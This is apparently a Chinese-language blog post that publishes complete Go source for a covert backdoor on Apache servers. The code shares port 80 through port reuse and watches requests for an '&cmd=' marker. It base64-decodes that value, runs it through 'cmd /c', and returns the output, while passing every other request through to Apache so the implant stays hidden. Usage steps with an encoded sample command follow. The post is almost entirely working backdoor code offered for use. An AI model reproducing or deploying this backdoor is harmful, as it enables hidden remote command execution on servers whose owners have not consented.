 ```yaml
---
layout: post
title: "端口复用：使用go_reuseport实现Apache 服务器正向后门（Go实现）"
date: 2019-07-12 
description: "端口复用"
tag: 工具开发
---   
```


### 直接公布源代码吧


利用go_reuseport,实现对apache服务器80端口请求的接管，将特定的请求进行特定的回应，其他请求通过回环地址转发给apache

可自行设定过滤关键字，目前关键字为“&cmd=”，请求时后方加上要执行的命令（base64编码后的命令）

Usage：

1.管理员权限cmd

2.执行 go-reuseport.exe x.x.x.x:80

3.浏览器请求 http:x.x.x.x/&cmd=aXBjb25maWc=    浏览器将返回ipconfig命令的执行结果。


    package main

    import (
        "encoding/base64"
        "fmt"
        "github.com/kavu/go_reuseport"
        "html"
        "io"
        "net"
        "net/http"
        "os"
        "os/exec"
        "strings"
    )

    func main() {
        //get local ip
        //ipmap, err := getIP()
        fmt.Println("Welcome!")

        var input_ipaddr = os.Args[1]

        listener, err := reuseport.NewReusablePortListener("tcp", input_ipaddr)
        if err != nil {
            panic(err)
        }
        defer listener.Close()

        server := &http.Server{}
        http.HandleFunc("/", func(w http.ResponseWriter, r *http.Request) {
            //fmt.Println(os.Getgid())
            var fullpath string = html.UnescapeString(r.URL.RequestURI())
            var result bool = strings.Contains(fullpath, "&cmd=")
            if result{
                index_f := strings.Index(fullpath,"cmd=")
                cmd_str := fullpath[index_f+4:]
                decodeBytes, err := base64.StdEncoding.DecodeString(cmd_str	)
                cmd := exec.Command("cmd","/c", string(decodeBytes))
                out, err := cmd.Output()
                if err !=nil{
                    fmt.Println(err)
                }
                var re string =  string(out)
                fmt.Fprintf(w, " <html>")
                fmt.Fprintf(w, " %q\n", strings.Replace(re, "\r\n", "</br>", -1))
                //fmt.Fprintf(w, "Hello, %q\n", html.EscapeString(r.URL.Path))
                fmt.Fprintf(w, " </html>")
            }else {
                transport :=http.DefaultTransport
                outReq := new(http.Request)
                *outReq = *r
                if clientIP,_, err := net.SplitHostPort(r.RemoteAddr); err == nil {
                    if prior, ok := outReq.Header["X-Forwarded-For"]; ok {
                        clientIP = strings.Join(prior, ",") + "," + clientIP
                    }
                    outReq.Header.Set("X-Forwarded-For", clientIP)
                    outReq.Header.Set("Host", "127.0.0.1")
                    outReq.URL.Scheme = "http"
                    outReq.URL.Host = "127.0.0.1"
                }

                res, err := transport.RoundTrip(outReq)
                if err != nil {
                    w.WriteHeader(http.StatusBadGateway)
                    return
                }

                for key, value :=range res.Header{
                    for _, v := range value{
                        w.Header().Add(key, v)
                    }
                }
                w.WriteHeader(res.StatusCode)
                io.Copy(w, res.Body)
                res.Body.Close()
            }

        })

        panic(server.Serve(listener))
    }


    func getIP()(map[string]string, error){
        ips :=  make(map[string]string)

        interfaces, err := net.Interfaces()
        if err != nil {
            return nil,err
        }

        for _, i := range interfaces {
            byName, err := net.InterfaceByName(i.Name)
            if err != nil {
                return nil,err
            }
            addresses, err := byName.Addrs()
            for _, v := range addresses {
                ips[byName.Name] = v.String()
            }
        }
        return ips, err
    }
